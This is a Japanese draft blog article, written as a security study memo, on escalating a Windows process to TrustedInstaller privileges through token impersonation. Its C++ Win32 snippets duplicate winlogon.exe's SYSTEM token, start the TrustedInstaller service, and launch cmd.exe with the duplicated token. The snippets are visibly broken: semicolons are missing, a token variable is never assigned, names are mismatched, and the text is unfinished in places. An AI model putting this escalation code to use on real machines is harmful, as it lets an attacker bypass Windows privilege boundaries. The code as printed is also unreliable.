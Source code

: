 ```yaml
---
title: "最高権限(TrustedInstaller)でプロセスを起動する方法とコード"
emoji: "🦔"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["セキュリティ", "windows", "cpp"]
published: false
---
```


セキュリティの勉強で学んだトークン偽装攻撃について実際のコードと一緒に備忘録として残します。
Windowsにはプロセスのアクセス管理の仕組みとしてアクセストークンという手法を用いています。
各プロセスにはアクセス権限情報を持ったアクセストークンが割り当てられており、対応する権限があれば複製をすることができます。
トークン偽装攻撃は自プロセスよりも高い権限が付与されたアクセストークンを複製し、
自プロセスに割り当てることでWindowsの最高権限であるTrustedInstallerに昇格することを指します。
以下コードはすべてC++で、呼んでいる関数はすべてWin32 APIのものになります。

## 用語の解説

### プライマリアクセストークン

ユーザーの権限(セキュリティコンテキスト)が記録されたトークン。
ユーザーが起動するプロセスはプライマリアクセストークンが付与されて実行します。
また、子プロセスは親プロセスのトークンを継承するので、

### 　偽装トークン

Windowsには仕様として他のユーザーのセキュリティコンテキストを持ったトークンを利用してスレッドを実行することができる機能が提供されています。
これを偽装トークンと呼びます。
以下にさらに詳しく説明されています。
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.4.2.d_%E5%81%BD%E8%A3%85.MD>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.6.3_%E5%BC%B7%E5%8A%9B%E3%81%AA%E7%89%B9%E6%A8%A9.MD>

## 昇格までの流れ

1. SYSTEM権限で起動しているプロセスからアクセストークンを複製
1. 現在のプロセスに複製したアクセストークンを付与
1. SYSTEM権限でTrustedInstaller.exeを起動する。
1. 起動したTrustedInstaller.exeのアクセストークンを複製
1. 複製したアクセストークンを付与した新しいプロセスを起動する。
1. プロセスがTrustedInstaller権限で起動する。

## SYSTEM権限で起動しているプロセスからアクセストークンを複製

Windowsのログオン機能をつかさどるwinlogon.exeはSYSTEM権限で起動されています。
そのため、winlogon.exeにはSYSTEM権限のアクセストークンが紐づけられています。
以下関数を利用してwinlogon.exeのアクセストークンを偽装トークン(TokenImpersonation)としてコピーします。
そのあと複製した偽装トークンを現在のプロセスに割り当てます。

> [!NOTE]
> 偽装トークンとは？
> 偽装トークンとはWindowsに備わった
>

```cpp
 // winlogon.exeのプロセスのハンドルを取得。(pidはwinlogon.exeのプロセスID)
 HANDLE hProcessWinlogon = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, pid);
 // winlogon.exeのプロセスハンドルからアクセストークンのハンドルを取得
 HANDLE hTokenWinlogon;
 OpenProcessToken(hProcessWinlogon, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTokenWinlogon); 
 //DuplicateProcessToken関数を使用してして偽装トークンとして複製し、ハンドルを取得。
 HANDLE hImpersonationToken;
 DuplicateTokenEx(hTokenWinlogon, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenImpersonation, &hImpersonationToken)
```

## 現在のプロセスに複製したアクセストークンを付与

後述するTrustedInstallerサービスを起動するために、複製したSYSTEM権限を持つアクセストークンを自プロセスに付与することで自プロセスをSYSTEM権限に昇格させます。

```cpp
 // 現在のプロセスのハンドルを取得
 HANDLE hCurrentThread = GetCurrentThread();
 // 複製したアクセストークンを現在のスレッドに割り当てる。
 // hImpersonationTokenには前項で複製したwinlogin.exeのアクセストークンのハンドルが入る
 SetThreadToken(&hCurrentThread, hImpersonationToken);
 // ここから先では使用しないのでクローズ
 CloseHandle(hCurrentThread);
 CloseHandle(hImpersonationToken);
```

## TrustedInstaller.exeを起動する

TrustedInstallerサービスを起動することによってTrustedInstaller.exeを実行させます。
このプロセスにはTrustedInstallerのアクセストークンが付与されているので、後でアクセストークンを複製します。

```cpp
// TrustedInstaller サービスの起動
SC_HANDLE hTrustedInstallerService = OpenServiceW(OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS), L"trustedinstaller", MAXIMUM_ALLOWED);
 SERVICE_STATUS_PROCESS ssp = {};
 DWORD pcbBytesNeeded;
 QueryServiceStatusEx(hTrustedInstallerService, SC_STATUS_PROCESS_INFO, (BYTE*)&ssp, sizeof(ssp), &pcbBytesNeeded)
```

## 起動したTrustedInstaller.exeのアクセストークンを複製

TrustedInstallerに昇格するにはTrustedInstaller権限のアクセストークンが付与されているプロセスが必要です。
WindowsのTrustedInstallerサービスはSYSTEM権限で起動することができ、そのプロセスのアクセストークンにはTrustedInstallerの権限が付与されています。
それを利用して起動したTrustedInstaller.exeからアクセストークンを複製します。

TrustedInstaller サービスの起動

```cpp
// TrustedInstaller サービスの起動
SC_HANDLE hTrustedInstallerService = OpenServiceW(OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS), L"trustedinstaller", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS lpBuffer = {};
DWORD pcbBytesNeeded;
// サービスの状況を問い合わせ。lpBufferにサービス情報が入り、lpBuffer.dwProcessIdにプロセスIDが格納される。
QueryServiceStatusEx(hTrustedInstallerService, SC_STATUS_PROCESS_INFO, (BYTE*)&lpBuffer, sizeof(ssp), &pcbBytesNeeded)
```

trustedinstaller.exeのトークンを複製

```cpp
// TrustedInstaller.exeのアクセストークン 
// 複製したのアクセストークン
HANDLE hTruestedInstallerToken;
HANDLE hPrimaryToken;
DuplicateTokenEx(hTruestedInstallerToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenPrimary, &hImpersonationToken)

```

## プロセスがTrustedInstaller権限で起動する

あとは作成するプロセスにTrustedInstallerの権限を付与するだけです。

```cpp
// コマンドプロンプト
const LPCWSTR targetExecutable = L"C:\\Windows\\System32\\cmd.exe";
STARTUPINFO si = {};
PROCESS_INFORMATION pi = {};
// コマンドプロンプトをTrustedInstaller権限のアクセストークンを付与して起動する。
// hTruestedInstallerToken前項で複製したTrustedinstaller.exeのアクセストークン
CreateProcessWithTokenW(hTruestedInstallerToken, LOGON_NETCREDENTIALS_ONLY, targetExecutable, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

全体のソースコードは以下にあります。
<https://github.com/takafumiokamoto/RunAsTrustedInstaller>

## 参考記事

<https://book.hacktricks.xyz/v/jp/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>
<https://blog.nflabs.jp/entry/2021/12/20/094644>

